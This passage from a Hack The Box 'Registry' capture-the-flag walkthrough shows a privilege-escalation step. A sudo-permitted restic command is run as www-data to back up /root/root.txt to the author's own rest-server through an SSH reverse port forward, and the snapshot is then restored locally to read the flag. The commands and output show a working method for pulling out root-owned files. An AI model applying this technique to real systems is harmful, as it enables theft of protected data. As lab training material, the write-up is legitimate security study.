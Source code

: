 Below is exactly what we were looking for:

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:61234         0.0.0.0:*               LISTEN      -                   
```


As TCP 61234 is now being used by registry.htb and rest-server is running on TCP 8000 on my localhost, let's try and run restic from registry.htb.

We need to run the restic command as www-data using *http://127.0.0.1:61234/* and try to exfiltrate the *root.txt* file using the port opened previously through SSH Remote Port Forwarding (used in the Restic Server URL).

```
www-data@bolt:~/html/bolt/theme$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:61234/ /root/root.txt
<ckup -r rest:http://127.0.0.1:61234/ /root/root.txt
enter password for repository: <rest_repo_passwd>

password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
duration: 0:00
snapshot 3a378c88 saved
www-data@bolt:~/html/bolt/theme$ 
```

**AND we were successful at this, but not done yet!**

After doing all this, we now need to restore the "backup" of the root.txt file locally so we can access the root flag.

**SYNTAX:**
```restic restore <snapshot_ID> -r rest:<Local_Rest_Server_URL> --target <path_to_restore>```


```
kali@back0ff:~/Documents/HTB-Labs/Registry$ restic restore 3a378c88 -r rest:http://127.0.0.1:8000 --target .
enter password for repository: 
repository 5966aab0 opened successfully, password is correct
restoring <Snapshot 3a378c88 of [/root/root.txt] at 2020-03-11 01:18:58.991866815 +0000 UTC by root@bolt> to .
```
Let's read *root.txt* and get the Root Flag!

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat root.txt 
ntrkz**********************kztgw
```

**AND WE GOT THE ROOT FLAG!!**


If you enjoyed my Walkthrough, thought it was useful AND you are a member of Hack The Box, feel free throw a 'Respect'. Thanks!






```